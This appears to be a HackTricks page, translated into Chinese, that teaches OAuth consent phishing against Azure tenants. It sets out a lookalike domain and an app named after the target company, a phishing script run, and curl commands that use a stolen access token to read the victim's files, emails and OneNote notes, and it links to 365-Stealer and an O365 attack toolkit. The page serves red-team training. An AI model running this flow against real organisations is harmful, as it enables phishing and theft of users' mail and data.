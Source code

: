 # Az - OAuth Apps Phishing

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## OAuth App Phishing

**Azure 应用程序** 配置了用户同意应用程序时将能够使用的权限（例如枚举目录、访问文件或执行其他操作）。请注意，应用程序将代表用户进行操作，因此即使应用程序可能请求管理权限，如果 **同意的用户没有该权限**，应用程序 **将无法执行管理操作**。

### 应用程序同意权限

默认情况下，任何 **用户都可以给应用程序提供同意**，尽管可以配置为用户只能同意 **来自经过验证的发布者的特定权限的应用程序**，甚至 **移除用户同意应用程序的权限**。

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

如果用户无法同意，像 `GA`、`Application Administrator` 或 `Cloud Application` `Administrator` 的 **管理员** 可以 **同意用户将能够使用的应用程序**。

此外，如果用户只能同意使用 **低风险** 权限的应用程序，这些权限默认是 **openid**、**profile**、**email**、**User.Read** 和 **offline\_access**，尽管可以 **向此列表添加更多**。

如果他们可以同意所有应用程序，他们可以同意所有应用程序。

### 2 种攻击类型

* **未认证**：从外部帐户创建一个具有 **低风险权限** `User.Read` 和 `User.ReadBasic.All` 的应用程序，例如，钓鱼用户，您将能够访问目录信息。
* 这要求被钓鱼的用户 **能够接受来自外部租户的 OAuth 应用程序**
* 如果被钓鱼的用户是可以 **同意任何应用程序的任何权限** 的某些管理员，则该应用程序也可以 **请求特权权限**
* **已认证**：在拥有足够权限的主体被攻陷后，**在帐户内创建一个应用程序** 并 **钓鱼** 一些 **特权** 用户，这些用户可以接受特权 OAuth 权限。
* 在这种情况下，您已经可以访问目录的信息，因此权限 `User.ReadBasic.All` 不再有趣。
* 您可能对 **需要管理员授予的权限** 感兴趣，因为普通用户无法给 OAuth 应用程序任何权限，这就是为什么您需要 **仅钓鱼这些用户**（稍后会详细介绍哪些角色/权限授予此特权）。

### 用户被允许同意

请注意，您需要从租户内的用户执行此命令，您无法从外部租户找到此配置。以下 CLI 可以帮助您了解用户权限：

{% code overflow="wrap" %}
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
{% endcode %}

* 用户可以对所有应用程序进行同意：如果在 **`permissionGrantPoliciesAssigned`** 中可以找到：`ManagePermissionGrantsForSelf.microsoft-user-default-legacy`，则用户可以接受每个应用程序。
* 用户可以对来自经过验证的发布者或您组织的应用程序进行同意，但仅限于您选择的权限：如果在 **`permissionGrantPoliciesAssigned`** 中可以找到：`ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`，则用户可以接受每个应用程序。
* **禁用用户同意**：如果在 **`permissionGrantPoliciesAssigned`** 中只能找到：`ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` 和 `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`，则用户无法进行同意。

可以在以下位置找到每个注释策略的含义：

{% code overflow="wrap" %}
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
{% endcode %}

### **应用程序管理员**

检查被视为应用程序管理员的用户（可以接受新应用程序）：

{% code overflow="wrap" %}
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
{% endcode %}

## **攻击流程概述**

攻击涉及几个步骤，针对一个通用公司。以下是可能的展开方式：

1. **域名注册和应用托管**：攻击者注册一个类似于可信网站的域名，例如 "safedomainlogin.com"。在该域名下，创建一个子域名（例如 "companyname.safedomainlogin.com"）来托管一个旨在捕获授权代码和请求访问令牌的应用程序。
2. **在 Azure AD 中注册应用**：攻击者随后在其 Azure AD 租户中注册一个多租户应用，命名为目标公司的名称，以显得合法。他们将应用的重定向 URL 配置为指向托管恶意应用的子域名。
3. **设置权限**：攻击者为应用设置各种 API 权限（例如 `Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）。一旦用户授予这些权限，攻击者就可以代表用户提取敏感信息。
4. **分发恶意链接**：攻击者制作一个包含恶意应用客户端 ID 的链接，并与目标用户分享，诱使他们授予权限。

## 示例攻击

1. 注册一个 **新应用**。如果您使用的是被攻击目录中的用户，则只能针对当前目录，或者如果这是外部攻击，则可以针对任何目录（如以下图像所示）。
1. 还要将 **重定向 URI** 设置为您希望接收代码以获取令牌的预期 URL（默认值为 `http://localhost:8000/callback`）。

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

2. 然后创建一个应用密钥：

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

3. 选择 API 权限（例如 `Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

4. **执行网页 (**[**azure\_oauth\_phishing\_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**，请求权限：

{% code overflow="wrap" %}
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
{% endcode %}

5. **将 URL 发送给受害者**
1. 在这种情况下 `http://localhost:8000`
6. **受害者** 需要 **接受提示：**

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

7. 使用 **访问令牌访问请求的权限**：
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## 其他工具

* [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** 查看 [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) 了解如何配置它。
* [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## 后期利用

### 钓鱼后期利用

根据请求的权限，您可能能够**访问租户的不同数据**（列出用户、组...或甚至修改设置）和**用户的信息**（文件、笔记、电子邮件...）。然后，您可以使用这些权限执行这些操作。

### 应用程序后期利用

查看页面的应用程序和服务主体部分：

{% content-ref url="../az-privilege-escalation/az-entraid-privesc/" %}
[az-entraid-privesc](../az-privilege-escalation/az-entraid-privesc/)
{% endcontent-ref %}

## 参考资料

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
